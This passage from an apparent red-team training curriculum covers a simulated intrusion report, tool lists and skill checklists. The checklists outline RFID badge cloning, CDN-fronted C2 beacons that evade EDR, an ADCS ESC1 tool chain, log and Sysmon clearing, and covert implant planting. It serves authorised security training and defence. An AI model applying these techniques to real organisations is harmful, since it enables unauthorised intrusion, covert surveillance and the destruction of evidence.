sliver > jobs --kill-all
```

```
PHYSICAL RETRIEVAL (Day 8, 10:00am):

Pretext: "Following up to check if the ticket was properly closed and leave
a spare component we mentioned in the walkthrough."

10:08: Operator at floor 2 networking closet
10:08:30: Disconnect LAN Turtle from switch port 23
10:08:45: Reconnect original unused-port condition (no cable in port 23)
10:09:00: Exit closet. 30 seconds in closet.
10:10: Depart building.

LAN Turtle condition on retrieval:
  - Confirm no pending Sliver connections (close before retrieval)
  - Wipe LAN Turtle storage: factory reset or shred /tmp and /home/root/
  - Destroy T5577 cloned badge and visitor badge clone
```

---

### FINDINGS SUMMARY: OPERATION SILENT LEDGER V2

```
+--------+-------------------------------------------+----------+------+-------+
| ID     | Title                                     | Severity | CVSS | ATT&CK|
+--------+-------------------------------------------+----------+------+-------+
| F-001  | HID Prox RFID Credential Cloning          | HIGH     | 7.6  | T1606 |
| F-002  | Social Engineering: Vendor Pretext Entry  | HIGH     | 7.8  | T1566 |
| F-003  | LLMNR/NBT-NS Poisoning (NTLM Capture)     | HIGH     | 8.1  |T1557.1|
| F-004  | Weak AD Account Password (IT Lead)        | HIGH     | 7.5  | T1110 |
| F-005  | GenericWrite ACL Abuse (jchen)            | CRITICAL | 9.1  |T1484.1|
| F-006  | Kerberoastable Service Account (mssql_svc)| HIGH     | 7.3  |T1558.3|
| F-007  | ADCS ESC1: MeridianUserAuth Template      | CRITICAL | 10.0 |T1649  |
| F-008  | Domain Admin Compromise (via ADCS ESC1)   | CRITICAL | 10.0 |T1078.2|
| F-009  | NTDS.dit Full Domain Hash Extraction      | CRITICAL | 10.0 |T1003.3|
| F-010  | Azure AD Lateral Movement via Hybrid Join | CRITICAL | 9.5  |T1550.1|
| F-011  | Azure DevOps Repo: Crown Jewel Reached    | CRITICAL | 10.0 |T1213  |
| F-012  | SQL Database: Client Portfolio Accessed   | CRITICAL | 9.8  |T1005  |
| F-013  | Ransomware Simulation (Test Files Only)   | CRITICAL | 9.9  |T1486  |
| F-014  | CrowdStrike Falcon: No Alert on ADCS      | INFO     | N/A  |T1649  |
| F-015  | No OSDP on Exterior Access Readers        | MEDIUM   | 5.5  |T1606  |
+--------+-------------------------------------------+----------+------+-------+

NOTE ON F-014:
  CrowdStrike Falcon did not alert on the certipy certificate enrollment.
  This is a detection gap in the EDR configuration: not a product failure.
  Recommendation: enable CrowdStrike Identity Protection module and configure
  the ADCS-related detection policies (available in Falcon since platform version 6.44).

THREE IMMEDIATE ACTIONS (for the debrief):
  1. Disable LLMNR and NBT-NS via Group Policy
     (Computer Configuration > Administrative Templates > Network > DNS Client)
     This removes the credential capture vector that provided the initial foothold.
  
  2. Remediate ADCS template "MeridianUserAuth"
     (Disable "Supply in the request" / client-supplied SAN in the template properties)
     Revoke all certificates issued from this template in the last 90 days.
     This closes the single most critical privilege escalation path in the environment.
  
  3. Implement phishing-resistant MFA on all M365 accounts
     (FIDO2/WebAuthn hardware tokens or Passkeys)
     This prevents the Azure AD lateral movement that followed from password-based auth.

DEBRIEF CHALLENGE QUESTIONS:
  "Would a real attacker have stopped where you stopped?"
    No. A real attacker with domain admin and Azure DevOps access would have:
    exfiltrated the full trading algorithm source code, planted persistent backdoors
    in the Azure AD tenant (backdoor service principal), and potentially disrupted
    trading operations. We stopped at access confirmation. The adversary would not.
  
  "How did you get past CrowdStrike?"
    CrowdStrike did not detect our activity because:
    a. The LAN Turtle beacon used HTTPS over CDN fronting (indistinguishable from
       legitimate Cloudflare traffic in the network telemetry)
    b. Certipy runs on the operator machine (not inside the network): no process to detect
    c. ADCS attacks are a detection gap in the current Falcon configuration
    d. All tools were run via proxychains through the Sliver SOCKS tunnel: no binaries
       were dropped on Windows endpoints until we had domain admin
  
  "Which single fix would have prevented the most downstream damage?"
    Remediating the ADCS ESC1 vulnerability. If the MeridianUserAuth template had been
    configured correctly (no client-supplied SAN + manager approval required), we would
    have needed a different escalation path from mssql_svc to Domain Admin. Kerberoasting
    alone (without ADCS) would have given us mssql_svc service account access to the SQL
    database: significant, but not Domain Admin and not Azure DevOps.
    ADCS ESC1 is the single most high-leverage finding in this report.
```

---

## PHASE 6 RESOURCE REFERENCE

### Physical Red Team

```
LOCK PICKING:
  LockPickingLawyer (YouTube): the standard video reference for technique
  BosnianBill (YouTube): excellent on high-security locks and bypass
  Deviant Ollam: "Practical Lock Picking" 2nd Edition (No Starch Press, 2012)
  Sparrows Lock Picks (sparrowslockpicks.com): best beginner and mid-level pick sets
  Multipick (multipick.com): German professional-grade picks
  TOOOL (The Open Organisation Of Lockpickers) - toool.us: community + resources

RFID AND ACCESS CONTROL:
  Proxmark3 RDV4 (proxmark.com): the standard professional RFID research tool
  Proxmark3 community firmware (Iceman fork): github.com/RfidResearchGroup/proxmark3
  Flipper Zero (flipperzero.one): versatile beginner RFID + sub-GHz + IR tool
  Covert Instruments (covertinstruments.com): bypass tools, UDT, bypass wedges
  OSDP Protocol Specification: siaonline.org (SIA membership: register free)
  OSDP Tool: github.com/ezforever/osdp-tool

PHYSICAL RED TEAM TRAINING:
  Deviant Ollam - DEF CON Physical Security Village talks (YouTube, free)
  ALOA (Associated Locksmiths of America) - alocka.com: certification programs
  Red Team Alliance Physical Pentest Course - redteamalliance.com
  Hak5 (hak5.org): LAN Turtle, Shark Jack, and all implant hardware
```

### Social Engineering

```
OSINT TOOLS:
  Maltego Community Edition: maltego.com/downloads (free tier)
  SpiderFoot: github.com/smicallef/spiderfoot (open source, self-hosted)
  Sherlock: github.com/sherlock-project/sherlock (username OSINT)
  OSINT Framework: osintframework.com (comprehensive resource index)
  hunter.io: email format discovery (free tier: 25 searches/month)

BOOKS:
  "The Art of Intrusion" - Kevin Mitnick (Wiley, 2005): case studies
  "Influence: The Psychology of Persuasion" - Robert Cialdini (Harper Business, 2021)
  "The Art of Human Hacking" - Chris Hadnagy (Wiley, 2010): SE methodology
  "Social Engineering: The Science of Human Hacking" - Chris Hadnagy (Wiley, 2018): updated

CAMPAIGNS:
  GoPhish: getgophish.com (phishing campaign framework, open source)
  Evilginx3: github.com/kgretzky/evilginx2 (AiTM phishing framework)

TRAINING:
  Social-Engineer.org: resources + newsletter + podcast
  DEF CON Social Engineering CTF (SECTF): annual competition, recordings on YouTube
  SANS SEC567: Social Engineering for Security Professionals (paid, excellent)
```

### Quantum Computing and PQC

```
FOUNDATIONS:
  "An Introduction to Mathematical Cryptography" - Hoffstein, Pipher, Silverman
  Christof Paar: "Introduction to Cryptography" lecture series (YouTube, free)
  "Post-Quantum Cryptography" - Bernstein and Lange (Springer, free PDF online)
  
NIST PQC STANDARDS (all free at csrc.nist.gov):
  FIPS 203: ML-KEM (CRYSTALS-Kyber) - key encapsulation
  FIPS 204: ML-DSA (CRYSTALS-Dilithium) - digital signatures
  FIPS 205: SLH-DSA (SPHINCS+) - hash-based signatures

TOOLS:
  Open Quantum Safe (liboqs): openquantumsafe.org - reference PQC implementations
  RF Explorer: rfexplorer.com/rf-explorer-model-3g-plus ($130): spectrum analysis
  Zeek Network Security Monitor: zeek.org (free, open source)

PQC DEPLOYMENT TRACKING:
  Cloudflare PQC progress: blog.cloudflare.com (search "post-quantum")
  NIST PQC project: csrc.nist.gov/projects/post-quantum-cryptography
  Chromium PQC notes: chromestatus.com (search "ML-KEM")
```

### Red Team Operations and ADCS

```
RED TEAM METHODOLOGY:
  MITRE ATT&CK Framework: attack.mitre.org (free, essential)
  Red Team Development and Operations (Joe Vest, James Tubberville): leanpub.com
  TIBER-EU Framework: ecb.europa.eu/pub/pdf/other/ecb.tiber_eu_framework.en.pdf
  CBEST Framework: bankofengland.co.uk (search "CBEST")
  CVSSv4.0 Calculator: cvssv4calc.first.org

ADCS ATTACK RESEARCH:
  "Certified Pre-Owned" (SpecterOps, 2021): specterops.io/assets/resources/Certified_Pre-Owned.pdf
    The foundational paper that identified ESC1-ESC8. Essential reading.
  Certipy: github.com/ly4k/Certipy (Python tool for ADCS attacks)
  PKIAudit: github.com/GhostManager/pkiaudit (ADCS audit PowerShell)
  
C2 FRAMEWORKS:
  Sliver: github.com/BishopFox/sliver (open source, Go, excellent for red team)
  Havoc: github.com/HavocFramework/Havoc (open source C2, advanced malleable profiles)
  Cobalt Strike: cobaltstrike.com (commercial, $3,500/year: industry standard for TIBER/CBEST)
  
AD ATTACK TOOLING:
  BloodHound CE: github.com/SpecterOps/BloodHound (AD attack path visualization)
  Impacket: github.com/fortra/impacket (Python AD attack framework)
  Responder: github.com/lgandx/Responder (LLMNR/NBT-NS/WPAD poisoning)
  CrackMapExec: github.com/byt3bl33d3r/CrackMapExec (AD lateral movement)
  
CLOUD RED TEAM:
  ROADtools: github.com/dirkjanm/ROADtools (Azure AD enumeration)
  MSOLSpray: github.com/dafthack/MSOLSpray (Azure/M365 password spraying)
  AADInternals: github.com/Gerenios/AADInternals (PowerShell Azure AD toolkit)
  Pacu: github.com/RhinoSecurityLabs/pacu (AWS attack framework)
  ScoutSuite: github.com/nccgroup/ScoutSuite (multi-cloud security audit)

TSCM:
  RF Explorer 3G+: rfexplorer.com ($130)
  REI ORION 2.4 HX NLJD: reiusa.net (~$3,800)
  KJB Security Products: kjbsecurity.com (lens detectors, consumer TSCM)
  "Eavesdropping on the Great Outdoors" (DEF CON 26 talk, YouTube): RF detection basics
  REI TSCM training: reiusa.net/training (professional TSCM certification)
```

---

## PHASE 6 COMPETENCY CHECKLIST

### Physical Red Team

```
LOCKPICKING (verify with practice lock progression):
  [ ] Open Master No.3 (4-pin) via SPP in under 5 minutes
  [ ] Open Master 140 (5-pin) via SPP in under 4 minutes
  [ ] Open ABUS 55/40 (euro quality) via SPP in under 8 minutes
  [ ] Open a lock with spool security pins in under 6 minutes
  [ ] Open a wafer lock via raking in under 60 seconds
  [ ] Open a tubular lock with a tubular lock pick in under 30 seconds
  [ ] Successfully impression a practice lock in under 45 minutes

BYPASS TOOLS:
  [ ] Shim open a standard padlock in under 20 seconds
  [ ] Loid a spring-bolt latch door in under 15 seconds
  [ ] Successfully use an UDT to open an inward-opening lever door
  [ ] Deploy and use an air wedge to create a tool-entry gap
  [ ] Identify the door type (maglock vs electric strike) on sight

ELECTRONIC ACCESS CONTROL:
  [ ] Identify HID multiCLASS vs. standard HID Prox reader by model number
  [ ] Identify OSDP-capable readers from manufacturer and model
  [ ] Capture a 125kHz HID Prox credential using Flipper Zero at under 15cm range
  [ ] Clone a captured credential to a T5577 blank and test it
  [ ] Use Proxmark3: successfully run autopwn against a MIFARE Classic card
  [ ] Explain the difference between Wiegand and OSDP v2 Secure Channel
  [ ] Explain when an OSDP downgrade (no SC enforced) makes Wiegand tap viable

DRONE RECON:
  [ ] Obtain a FAA Part 107 Remote Pilot Certificate (or equivalent in your jurisdiction)
  [ ] Successfully plan a drone recon flight using airspace check tools
  [ ] Fly a drone recon mission producing a fully annotated ISR deliverable
  [ ] Capture thermal imagery and correctly identify a heat signature finding
  [ ] Deploy and retrieve a drone recon mission without detection

IMPLANTS:
  [ ] Configure Sliver HTTPS beacon with CDN domain fronting
  [ ] Deploy a LAN Turtle with a Sliver HTTPS beacon (not AutoSSH)
  [ ] Verify the beacon checks in through Cloudflare to your C2 server
  [ ] Demonstrate that the beacon traffic appears as HTTPS to a CDN in Wireshark
  [ ] Physically retrieve the LAN Turtle in under 60 seconds
```

### Social Engineering

```
  [ ] Conduct a successful vishing call using Pretext 1 (IT Helpdesk to User)
      in a lab setting with a skeptical colleague as the target
  [ ] Handle all three layers of objection handling in a vishing call without
      breaking pretext
  [ ] Construct a spear-phishing email from scratch using OSINT data
      (company logo, correct email format, internal terminology from job postings)
  [ ] Set up a GoPhish campaign: sending profile, template, landing page, tracking
  [ ] Complete a full SE campaign planning document with all four metrics defined
  [ ] Execute a tailgate entry in a controlled physical lab exercise
  [ ] Build and deliver a complete identity legend that survives a 20-minute
      live role-play interrogation by a colleague
  [ ] Use Sherlock, SpiderFoot, and hunter.io to build a target profile for
      a company within 2 hours
```

### Quantum Computing

```
  [ ] Explain Shor's algorithm impact on RSA/ECDSA to a non-technical executive
      in under 3 minutes without using the word "algorithm"
  [ ] Explain Grover's algorithm impact on AES-128 vs. AES-256 correctly
  [ ] Explain SNDL and why it is a current (not future) threat
  [ ] Set up Zeek + SNDL filter on a lab network: generate a Zeek ssl.log
  [ ] Run the crypto audit script against a lab subnet: identify vulnerable endpoints
  [ ] Build liboqs from source: confirm ML-KEM algorithms are available
  [ ] Run the ML-KEM timing script at 10,000 samples: interpret the p-value output
  [ ] Configure your SSH client with sntrup761x25519-sha512 key exchange:
      verify it negotiates correctly with an OpenSSH 9.0+ server
  [ ] Explain the PQC downgrade attack concept to a developer:
      what the attack does, what the prerequisite is, how to defend against it
  [ ] Explain OSDP downgrade attack and relate it to the PQC downgrade concept
      (same class of protocol-layer stripping attack, different context)
```

### Red Team Operations

```
  [ ] Complete a scoping questionnaire for a hypothetical client engagement
      covering all 8 sections
  [ ] Draft a complete ROE document from the scoping questionnaire
  [ ] Write one complete finding report (full format) for a real or simulated
      finding, using CVSSv4.0 with correct vector string
  [ ] Calculate a CVSSv4.0 score using cvssv4calc.first.org and explain each
      metric choice for your selected finding
  [ ] Deliver a 10-minute simulated debrief to a non-technical colleague
      covering the five debrief sections
  [ ] Write a 2-page remediation roadmap with a 30/90/6-month structure
  [ ] Explain the three-way reporting structure of a TIBER-EU engagement
  [ ] Explain how a TIBER-EU engagement differs from a standard red team:
      threat intelligence phase, regulatory submission, scope constraints
```

### Cleanup and TSCM

```
  [ ] Run the Windows cleanup script in a lab: verify no scheduled tasks,
      registry keys, or services remain after cleanup
  [ ] Run the Sysmon-specific cleanup and verify the Sysmon log is cleared
  [ ] Run the Linux cleanup script in a lab: verify bash history, cron jobs,
      systemd units, and auth.log are all addressed
  [ ] Follow the log clearing decision tree for a blind red team scenario:
      document what you clear and why
  [ ] Perform an RF sweep using RF Explorer on a room containing a Pi Zero W
      (running WiFi): identify the device in the spectrum
  [ ] Use a NLJD (or a NLJD simulator) on a room: document and triage 3+
      false positives down to one candidate device
  [ ] Complete the TSCM lab exercise: build a Pi Zero audio implant, conceal it,
      attempt detection using all 5 detection methods, document results
  [ ] Explain all four offensive planting principles and relate each to its
      corresponding detection gap
```

### ADCS

```
  [ ] Run certipy find against a lab AD environment: identify any misconfigured templates
  [ ] Execute ESC1 exploitation end-to-end in a lab:
      certipy find -> certipy req -> certipy auth -> impacket-secretsdump
  [ ] Restore a certificate template after ESC4 exploitation using the saved config
  [ ] Revoke a certificate issued during the lab exercise from the CA console
  [ ] Add ADCS findings to a sample report with correct MITRE ATT&CK mapping (T1649)
  [ ] Explain ADCS ESC1 to a Windows systems administrator in plain English:
      what the template misconfiguration is, why it is dangerous, how to fix it
  [ ] Explain why ADCS certificates bypass password resets and why that matters
```

### Full Operational Scenario

```
  [ ] Complete Operation Silent Ledger v2 in a lab environment with:
      - A physical component (deploy and retrieve a LAN Turtle)
      - Responder credential capture
      - BloodHound AD attack path enumeration
      - ADCS ESC1 exploitation
      - DCSync / NTDS.dit dump
      - At least one cloud lateral movement step (simulate if no Azure lab)
      - Ransomware simulation with test files + immediate restore
      - Full digital cleanup (Windows + Linux + AD)
      - Physical retrieval of the LAN Turtle
  
  [ ] Write a complete report for the lab engagement covering:
      - Executive summary (1 page)
      - 5 findings with CVSSv4.0 scores and MITRE ATT&CK mapping
      - Attack narrative (chronological, day by day)
      - Remediation roadmap (30/90/6-month)
  
  [ ] Deliver a 20-minute debrief on your lab engagement to a colleague
      who plays the role of the CISO: field their questions in character
```

---

## PHASE 6 COMPLETION

```
When you can check every item in the Phase 6 competency checklist:

  Physical Red Team:    [ ] All items
  Social Engineering:   [ ] All items
  Quantum Computing:    [ ] All items
  Red Team Operations:  [ ] All items
  Cleanup and TSCM:     [ ] All items
  ADCS:                 [ ] All items
  Operational Scenario: [ ] All items

You have completed Phase 6.

What you have built:
  A complete physical red team capability: from lockpicking to RFID cloning to
  EDR-evasive hardware implants with cloud-native callbacks.
  
  A social engineering methodology that covers the full human attack surface:
  vishing with objection handling, spear-phishing infrastructure, USB drops,
  and in-person pretext entry with identity legend development.
  
  A forward-looking understanding of quantum cryptography threats and the
  SNDL attack model that is active RIGHT NOW, not in 10 years.
  
  Professional red team operations standards: scoping, ROE, CVSSv4.0 reporting,
  structured debrief, purple team, re-test, and TIBER-EU/CBEST frameworks.
  
  Complete post-engagement cleanup including Sysmon artifacts: the gap that
  most red teams leave behind.
  
  TSCM capability: you understand how surveillance devices are found, which
  means you understand how to plant ones that are not.
  
  ADCS exploitation: the dominant 2027 escalation vector, end-to-end,
  including cleanup and detection evasion.
  
  A full chained operation: physical to on-premises AD to cloud lateral
  movement and crown jewel access, with complete cleanup and professional reporting.

The top 0.0001% is not a title. It is a standard.
This is what the standard looks like.
```

---

<div align="right">

*Build the capability. Document the method. Tend the light.*

</div>

---


